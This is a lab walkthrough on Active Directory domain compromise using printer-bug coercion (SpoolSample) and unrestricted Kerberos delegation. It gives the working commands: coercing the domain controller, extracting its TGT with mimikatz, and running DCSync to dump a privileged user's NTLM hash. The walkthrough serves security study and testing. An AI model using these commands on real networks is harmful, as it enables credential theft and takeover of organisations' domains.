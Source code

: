 # Domain Compromise via DC Print Server and Kerberos Delegation

This lab demonstrates an attack on Active Directory Domain Controller \(or any other host to be fair\) that involves the following steps and environmental conditions:

* Attacker has to compromise a system that has an unrestricted kerberos delegation enabled.
* Attacker finds a victim that runs a print server. In this lab this happened to be a Domain Controller.
* Attacker coerces the DC to attempt authenticating to the attacker controlled host which has unrestricted kerberos delegation enabled. 
  * This is done via RCP API  [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://msdn.microsoft.com/en-us/library/cc244813.aspx) that allows print clients to subscribe to notifications of changes on the print server.
  * Once the API is called, the DC attempts to authenticate to the compromised host by revealing its TGT to the attacker controlled compromised system.
* Attacker extracts `DC01's` TGT from the compromised system and impersonates the DC to carry a DCSync attack and dump domain member hashes.

This lab builds on:

{% page-ref page="domain-compromise-via-unrestricted-kerberos-delegation.md" %}

## Execution

Our environment for this lab is:

* ws01 - attacker compromised host with kerberos delegation enabled \(attacker, server\)
* dc01 - domain controller running a print service \(victim, target\)

After compiling the amazing PoC [SpoolSample](https://github.com/leechristensen/SpoolSample) by [@tifkin\_](https://twitter.com/tifkin_), we execute it with two arguments `target` and `server`:

```csharp
.\SpoolSample.exe dc01 ws01
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-32-34.png)

We are shown a message that the target attemped authenticating to our compromised system, so let's check if we can retrieve DC01 TGT:

```csharp
mimikatz # sekurlsa::tickets
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-33-49.png)

We indeed got a TGT for DC01$ computer!

With this, we can make our compromised system `ws01$` appear like a Domain Controller and extract an NTLM hash for the user `offense\spotless` which we know has high privileges in the domain:

```csharp
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-43-32.png)

The above clearly shows the attack was successful and an NTLM hash for the user spotless got retrieved -  get cracking or passing it now.

## Mitigation

For mitigations, see [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md#mitigation) mitigations section.

## References

{% embed url="https://github.com/leechristensen/SpoolSample" %}

{% embed url="https://adsecurity.org/?p=4056" %}

{% embed url="https://adsecurity.org/?p=2053" %}

